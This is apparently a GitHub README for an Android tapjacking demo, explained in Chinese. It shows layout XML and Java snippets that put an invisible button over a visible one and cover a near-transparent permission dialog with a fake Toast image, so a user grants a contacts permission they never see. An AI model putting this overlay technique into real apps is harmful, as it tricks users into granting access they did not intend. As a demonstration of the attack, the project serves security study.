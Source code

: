 # Tapjacking_Android
1.	页面整体采用<RelativeLayout>相对布局，其中start按钮和premession按钮采用<FrameLyout>布局方法，将Start按钮覆盖在Premession按钮上，并设置start的透明度alpha为0.这样就使用户以为在点击Premession实际上是在触发Start
2.	点击Start，将加载一个image图像，同时触发一个模拟权限获取的提示框，并将提示框的主体背景设为透明，同时将刚刚加载的伪造消息提示的图像覆盖到权限提示框上，仅留下权限提示框的确认按钮，这样用户就误以为自己在点击信息提示的确认，其实是再点权限确认。
3.	部分核心代码
布局文件（activity_main.xml）：
    <FrameLayout
        android:layout_width="wrap_content"
        android:layout_height="wrap_content">
        <Button
            android:id="@+id/button"
            android:layout_width="match_parent"
            android:layout_height="match_parent"
            style="@style/btnStyle"
            android:text="premession"
            />
        <Button
            android:id="@+id/btnStart"
            style="@style/btnStyle"
            android:layout_width="137dp"
            android:layout_height="wrap_content"
            android:onClick="startTJService"
            android:text="@string/strStart"
            android:alpha="0"/>
</FrameLayout>

MainActivity.java：
this.startService(service);
        AlertDialog.Builder bb = new AlertDialog.Builder(this);
        bb.setPositiveButton("confrim",new DialogInterface.OnClickListener(){
            public void onClick(DialogInterface arg0,int arg1){
                Toast t = (Toast) Toast.makeText(getApplicationContext(),"你上当了!!",Toast.LENGTH_LONG);
                t.show();
                arg0.dismiss();
            }
        });
        final AlertDialog dialog = bb.create();
        WindowManager.LayoutParams lp = dialog.getWindow().getAttributes();
        lp.alpha=0.1f;
        dialog.getWindow().setAttributes(lp);
        bb.setMessage("应用Tap_jacking正在申请联系人权限");
        bb.setTitle("权限获取");
        dialog.show();

ToastService.java:
    public void onCreate() {
        super.onCreate();
        t = new Timer();
        context = getApplicationContext();
        jam = new Toast(context);
        ImageView img = new ImageView(context);
        img.setImageResource(R.drawable.ic_terms_message);//加载假的信息提示
        jam.setView(img);
    }
![image](https://github.com/ggfhgg/Tapjacking_Android/blob/master/Screenshot_20190718-113237_tapjacking_android.jpg)

